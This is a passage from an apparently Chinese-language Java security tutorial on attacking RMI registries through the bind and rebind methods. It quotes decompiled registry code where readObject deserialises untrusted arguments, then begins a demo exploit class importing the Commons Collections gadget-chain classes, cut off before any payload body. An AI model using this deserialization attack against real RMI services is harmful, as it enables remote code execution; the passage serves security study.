 
####  3.1.2. <a name='bindrebind'></a>bind & rebind
当调用`bind`时, 会用`readObject`读出参数名以及远程对象, 此时则可以利用该方法来攻击注册中心.
```java
case 0:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var94) {
        throw new UnmarshalException("error unmarshalling arguments", var94);
    } catch (ClassNotFoundException var95) {
        throw new UnmarshalException("error unmarshalling arguments", var95);
    } finally {
        var2.releaseInputStream();
    }

    var6.bind(var7, var8);
```

当调用`rebind`时, 也会用`readObject`读出参数名和远程对象, 因此和`bind`一样, 可以利用该方法来攻击注册中心.
```java
case 3:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var85) {
        throw new UnmarshalException("error unmarshalling arguments", var85);
    } catch (ClassNotFoundException var86) {
        throw new UnmarshalException("error unmarshalling arguments", var86);
    } finally {
        var2.releaseInputStream();
    }

    var6.rebind(var7, var8);
```

`Demo`代码
```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.NotBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
```